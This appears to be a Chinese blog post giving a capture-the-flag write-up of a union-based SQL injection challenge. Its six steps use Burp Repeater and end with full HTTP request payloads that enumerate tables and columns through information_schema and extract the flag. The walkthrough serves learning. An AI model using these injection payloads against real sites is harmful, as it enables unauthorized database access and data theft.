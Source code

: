 ```yaml
---
title: 【Web安全】sql1
tags:
  - Web安全
---
```


1. 拦截浏览器GET请求，点击Action，然后Send to repeater。传入不同的id值可以看到相应的输出，判断可以通过id进行注入。
   
   ![](/img/posts/zh/2023-10-12/00501.png)

2.  使用`order by`子句判断返回的列数。当`order by`为`4`时，界面无回显、值为`3`时有回显。所以后端返回的列数应该是`3`。 
   
   ![](/img/posts/zh/2023-10-12/00502.png)

3. 判断后端返回的前端显示的格式。

```sql
GET /?id=-1 union select 1,2,3 HTTP/1.1
```

   ![](/img/posts/zh/2023-10-12/00503.png)

4. 注入出当前数据库所有的表名发现有个表名为flag。

```sql
GET /?id=-1 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()) HTTP/1.1
```
   
   ![](/img/posts/zh/2023-10-12/00504.png)

5. 注入出flag表中的全部列名发现有个列名flag。

```sql
GET /?id=-1 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='flag') HTTP/1.1
```
   
   ![](/img/posts/zh/2023-10-12/00505.png)

6. 查询flag表的flag列。获取flag！

```sql
GET /?id=-1 union select 1,2,(select flag from flag) HTTP/1.1
```
   
   ![](/img/posts/zh/2023-10-12/00506.png)